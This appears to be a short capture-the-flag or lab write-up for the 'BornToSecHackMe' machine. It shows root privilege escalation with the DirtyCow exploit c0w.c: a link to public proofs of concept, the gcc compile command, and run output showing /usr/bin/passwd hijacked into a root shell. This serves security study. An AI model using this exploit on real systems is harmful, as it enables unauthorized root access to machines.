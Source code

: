 [See detailed writeup here](../writeup1.md)

Log in as any user account.

https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

Here you can see other different DirtyCow exploits that you can use.

Unlike the previous one, we will use c0w.c this time.


```
gcc -pthread c0w.c  -o c0w
```

Now we will run it...

```
zaz@BornToSecHackMe:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

```

All we need to do is;

```
zaz@BornToSecHackMe:~$ /usr/bin/passwd

root@BornToSecHackMe:/home/zaz# whoami
root

root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

We are ROOT #3 ;D